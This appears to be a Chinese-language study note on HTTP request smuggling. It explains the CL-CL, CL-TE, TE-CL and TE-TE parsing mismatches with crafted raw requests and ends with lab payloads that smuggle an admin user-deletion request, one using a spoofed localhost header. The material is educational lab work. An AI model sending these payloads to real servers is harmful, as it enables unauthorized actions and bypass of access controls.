



# 协议层的攻击 ——HTTP请求走私

- [知道创宇404实验室](https://paper.seebug.org/1048/)
- [追光者](https://sec.kim/archives/1027.html)

## 概念

描述
HTTP请求走私漏洞是由解析HTTP请求的两台设备（比如反向服务器和后端服务器）间RFC协议差异而导致的。诸如Web服务器、应用防火墙、Web缓存服务器使用不同的方式来解析HTTP请求。


> 在特定的情况下，一个HTTP请求通道中存在两个或多个HTTP实体，又因为设备见遵循的协议不同，导致之后的HTTP实体被走私到第二台设备中，而第一台设备无法意识到。





>注意事项


## 常见走私方法

- **CL不为0**

假设前端代理服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的Content-Length头，不进行处理。这就有可能导致请求走私。

比如构造请求：

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器收到该请求，通过读取 `Content-Length` ，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对Content-Length进行处理，由于`Pipeline` 的存在，它就认为这是收到了两个请求，分别是

```
//第一个
GET / HTTP/1.1\r\n
Host: example.com\r\n

//第二个
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
```


### CL-CL

`假设` 中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个Content-Length的值对请求进行处理，而后端源站服务器按照第二个Content-Length的值进行处理。

此时恶意攻击者可以构造一个特殊的请求：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

中间代理服务器获取到的数据包的长度为 `8` ，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 `7` 。当读取完前7个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的 `缓冲区` 还剩余一个字母`a` ，对于后端服务器来说，这个 `a` 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，假设请求如图所示。

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```

从前面我们也知道了，代理服务器与源站服务器之间一般会重用TCP连接。

这时候正常用户的请求就拼接到了字母a的后面，当后端服务器接收完毕后，它实际处理的请求其实是

```
aGET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```

这时候用户就会收到一个类似于 `aGET request method not found` 的报错。这样的还是太过理想化 也就想想吧.


## CL-TE

CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 `Content-Length` 这一请求头，而后端服务器会遵守 RFC2616 的规定，忽略掉 `Content-Length` ，处理 `Transfer-Encoding` 这一请求头。

- [burp官方靶场](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

```
POST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```

由于前端服务器处理Content-Length，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是：

```
0\r\n
\r\n
G
```

### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理Transfer-Encoding这一请求头，而后端服务器处理Content-Length请求头。




关键代码:
```
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理Transfer-Encoding请求头，确实是实现了RFC的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的Transfer-Encoding进行某种混淆操作(如某个字符改变大小写)，从而使其中一个服务器不处理Transfer-Encoding请求头。在某种意义上这还是CL-TE或者TE-CL。


关键代码:
```
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```


POST / HTTP/1.1
Host: acef1f611f83674f80ba14c900370092.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: session=VBsjBfArYahKy5bo2nX43fPVbiPXlFER
Content-Length: 4
Transfer-Encoding: chunked

SB
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 15

NengChen
0


POST / HTTP/1.1
Host: ac381f5d1e63ce66805c082b00e00094.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac381f5d1e63ce66805c082b00e00094.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: https://ac381f5d1e63ce66805c082b00e00094.web-security-academy.net
Cookie: session=CexKJlH1ZLzKGBuX8Sj6pojAdnoJ0a5w
Transfer-Encoding: chunked

0


GET /admin/delete?username=carlos HTTP/1.1
X-yfaezR-Ip: 127.0.0.1
Content-Length: 10
Connection: close

123


